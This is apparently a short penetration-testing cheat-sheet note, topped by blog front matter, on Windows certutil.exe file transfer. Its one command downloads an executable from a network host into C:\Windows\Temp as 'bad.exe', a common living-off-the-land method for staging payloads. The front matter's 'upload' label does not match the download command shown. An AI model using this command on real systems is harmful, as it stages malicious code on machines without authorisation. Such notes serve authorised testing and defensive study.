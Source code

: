 ```yaml
---
description: >-
  Certutil.exe utility to upload files.
title: Certutil.exe                 # Add title here
date: 2023-02-03 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Windows - Certutil.exe]                     # Change Templates to Writeup
tags: [file transfer, windows upload, certutil]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

```cmd
certutil.exe -urlcache -f http://10.0.0.5/40564.exe C:\Windows\Temp\bad.exe
```
Example:
[[Forest#^8fde0e]]